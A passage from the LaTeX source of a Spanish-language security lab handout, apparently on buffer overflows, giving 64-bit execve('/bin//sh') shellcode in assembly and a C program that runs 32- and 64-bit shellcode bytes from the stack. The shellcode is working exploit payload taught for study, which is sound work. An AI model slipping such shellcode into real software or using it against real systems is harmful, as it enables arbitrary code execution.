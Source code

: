 \subsection{Shellcodede 64-bits} 

A continuación proveemos el mismo shellcode pero es la versión de 64-bits, la única diferencia que existe son los nombres de los registros que se usan para  \texttt{execve()} como así el valor de la llamada al sistema. Se dará una breve explicación en la sección de los comentarios pero no se dará un resumen detallado del shellcode.


\begin{lstlisting}[language={[x86masm]Assembler}]
xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov  rax, '/bin//sh' ; the command we want to run
push rax             ; 
mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()'s system call number
syscall              
\end{lstlisting}



\subsection{Tarea: Invocando el Shellcode} 

Hemos generados el código binario del shellcode hecho en assembler y hemos puesto ese codigo dentro de un programa hecho en C llamado \texttt{call\_shellcode.c} dentro del directorio \texttt{shellcode}. Si desea aprender como generar el código binario por su cuenta, le recomendamos el laboratorio de Shellcode.
En esta Tarea, haremos un testeo del shellcode.

\begin{lstlisting}[language=C, caption=\texttt{call\_shellcode.c}, label=call_shellcode]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
} 
\end{lstlisting}

